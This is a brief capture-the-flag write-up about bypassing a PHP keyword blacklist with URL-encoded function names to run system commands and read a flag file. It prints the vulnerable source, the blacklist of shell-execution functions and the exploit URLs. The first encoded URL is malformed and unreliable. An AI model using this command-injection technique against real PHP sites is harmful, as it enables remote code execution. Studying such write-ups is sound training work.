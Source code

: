A quick poke around the URL revealed a robots.txt file which gave the first clue:
```
 you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

Visiting http://35.196.45.11:8080/?debug provided the PHP source code that is driving the page:

```php

$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
    if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
    list($key, $val) = each($_GET);
    $key($val);
}
?>
```

But The admin forgot that we can bypass the filter using url encoding , we can call system("ls"):

**http://35.196.45.11:8080/?%115%121%115%116%101%109=ls**

now print the long file name content :

**http://35.196.45.11:8080/?%73%79%73%74%65%6d=cat%20flag-a-long-name-that-you-wont-know.php**



`AceBear{I_did_something_stupid_with_url}`

